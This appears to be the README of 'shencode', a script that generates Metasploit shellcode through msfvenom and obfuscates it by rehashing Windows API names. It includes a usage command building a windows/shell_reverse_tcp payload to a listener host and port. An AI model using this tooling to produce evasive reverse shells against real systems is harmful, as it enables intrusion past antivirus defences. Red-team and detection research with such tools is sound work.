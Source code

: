 # shencode
automation script for creating and obfuscating metasploit shellcode

![shencode-1.png](shencode-1.png)

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)

## ToDo

- choose between building a shellcode and use an existing one
- Parser optimization
- write shellcode in a template file (.cpp)
- automatical compile feature
- Use PATH for better msfvenom integration
- object oriented rewrite for better module integration

## How to use

`python shencode.py --payload windows/shell_reverse_tcp --arg1 "LHOST=127.0.0.1" --arg2 "LPORT=4443" --key 33 --outputformat "c" [--showmod] [--decompile]`

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

### Parameter

- `--payload` - create a payload with msfvenom, use `--arg1` and `--arg2` for command line arguments
- `--key` - ROL Key hash API functions
- `--outputformat` - c, cs, casm, ps1, py, hex
- `--showmod` - lists changed bytes
- `--decompile` - decompile

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
